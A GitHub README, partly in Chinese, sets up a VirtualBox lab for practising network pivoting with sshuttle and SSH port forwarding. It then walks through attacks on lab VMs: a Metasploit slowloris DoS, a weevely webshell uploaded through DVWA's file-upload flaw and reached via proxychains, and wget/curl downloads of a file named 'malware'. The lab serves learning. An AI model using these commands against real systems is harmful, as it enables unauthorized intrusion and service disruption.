 # NM-Lab-Network-pivoting

This is a little playground for practicing network pivoting.

[Demo Vedio (YouTube)](<https://youtu.be/gpVocB_ycLo>)

## Prerequisite

### Network architecture and setups

The following is our network settings.

#### Local (Attacker)
* OS : MacOS or Kali Linux  
* IP : 192.168.2.105 (For example) (Connect with Internet)

#### VirtualBox VM1 (SSH Server)  
* OS : Ubuntu server 20.04  
* (Adapter1 橋接網路卡 Bridge enp0s3) IP : 192.168.2.113 (For example)  
* (Adapter2 內網 Internal enp0s8) IP : 192.168.1.1 (For example)  

#### VirtualBox VM2 (Target Machine)
* OS : Ubuntu server 20.04.2 or Kali Linux  
* (Adapter2 內網 enp0s8) IP : 192.168.1.100 (For example)

#### VirtualBox VM3 (Optional)
* OS : Metasploitable2 (For running DVWA)  
(You can also install DVWA on the target machine, but it is a longer process for installing DVWA alone.)  
(I personally take this as my guideline to [install DVWA](<https://medium.datadriveninvestor.com/setup-install-dvwa-into-your-linux-distribution-d76dc3b80357>))
* (內網 eth0) IP : 192.168.1.101 (For example)  

#### Step 0  
* 下載然後導入 ubuntu server 到 VirtualBox  
https://ubuntu.com/download/server  

#### Step 1 
* 完成 VirtualBox 的網路介面卡設定 確認連接內網的網路卡擁有相同的名稱  

#### Step 2
* 登陸兩(三)台要連接內網的VM之後，使用  
```
$ ifconfig -a
``` 
* 確認內網網路卡的名稱 (ex: enp0s8)，然後使用指令  
```
$ sudo ifconfig enp0s8 192.168.1.1 netmask 255.255.255.0 up
```  
* 開啟網路卡 192.168.1.1
  可以自己設定 (不同的機器要不同 ex : 192.168.1.1 & 192.168.1.100)  
  不過注意每一次開機都要設定  

* 這樣即完成網路設定  
  可以用 ping 或 ifconfig 指令做確認  

### Enviroment & Installation & Requirement

#### Local (Attacker)
[Ssuttle](<https://github.com/sshuttle/sshuttle>) (For pivoting)  
  
[Nmap](<https://nmap.org/book/inst-macosx.html>) (For scanning)(option)  

[Metasploit](<https://www.metasploit.com>) (For using slowloris DOS attack exploit module)      

#### VirtualBox VM1 (SSH Server)  

Required
* SSH service  
* HTTP service (Apache web service)
* A root account (for sshuttle)
* A normal user account (for port forwarding)

#### VirtualBox VM2 (Target machine)

Required
* SSH service  
* HTTP service (Apache web service)  

## Ways of Pivoting

To confirm the results of pivoting, a http server has been hosted on target machine at port 8000 using 
```
python -m SimpleHTTPServer
```

We can use 
```
http://192.168.1.100:8000
```
to connect it from internal network  

### sshuttle  

On terminal  
```
$ sshuttle -r user@192.168.2.113 192.168.1.0/24
```  
Root privilege is required for both local and the ssh server.

### Dynamic port forwarding
On pivot (SSH server):  
```
$ ssh user@192.168.2.113 -D 127.0.0.1:21000 -N
```  
You can use any available port on localhost  

### Reverse remote port forwarding
#### Attacker
Step 1 :   
* Create a new dedicated user  
```
$ sudo useradd sshpivot --no-create-home --shell /bin/false  
$ sudo passwd sshpivot  
```
Step 2 :  
* Add `/bin/false` to `/etc/shells`  

Step 3 :  
```
sudo systemctl restart ssh
```  

Step 4 :  
* Request `http://127.0.0.1:14000` to reach `http://192.168.1.100:8000` after pivot connected  

#### Pivot (SSH server)
```
$ ssh sshpivot@192.168.2.105 -R 127.0.0.1:14000:192.168.1.100:8000 -N
```  

## Ways of Attack

### DOS

* Open terminal and Run metasploitable  
* Somewhere in the `/opt/metasploit-framework/bin/` (with MacOS High Sierra)

```
$ ./msfconsole
```  
* Some configurations if first time use
```
msf6 > search slowloris  
msf6 > use auxiliary/dos/http/slowloris  
msf6 auxiliary(dos/http/slowloris) > options  
msf6 auxiliary(dos/http/slowloris) > set sockets 200
```
* the number of `sockets` doesn't really matter
```
msf6 auxiliary(dos/http/slowloris) > set rhost 192.168.1.100  
msf6 auxiliary(dos/http/slowloris) > run  
```

* Now you should see it working !!!  

* 可以在 target machine 上下指令確認有沒有被DOS  
```
$ systemctl status
```  

### Reverse shell
Use DVWA's file upload vulnerability to open a reverse shell (webshell). [Reference](https://medium.com/blacksecurity/557d6392eefe)  

Step 1 :  
```
weevely generate %password% %~/shell.php%
```  

Step 2 :  
* Upload `shell.php`  

Step 3 :  
```
proxychains weevely http://192.168.1.101/dvwa/hackable/uploads/shell.php %password%
```  

* Note that we must use `proxychains` to connect with proxy. Add `socks4 127.0.0.1 21000` to `/etc/proxychains4.conf`.  

### Downloading other malwares

#### From internal network
* There's a file called malware on VM2 (target machine), download it from other machine in LAN. We can use  
```
$ wget http://192.168.1.100:8000/malware
```  
or  
```
$ curl -O http://192.168.1.100:8000/malware
```  

#### From external network
* If target machine can access external network, we can use similar command as above. If target only has access to internal network, "reverse pivoting" to connect to attacker. However, reverse pivoting might not success if we use the webshell we described previously.  
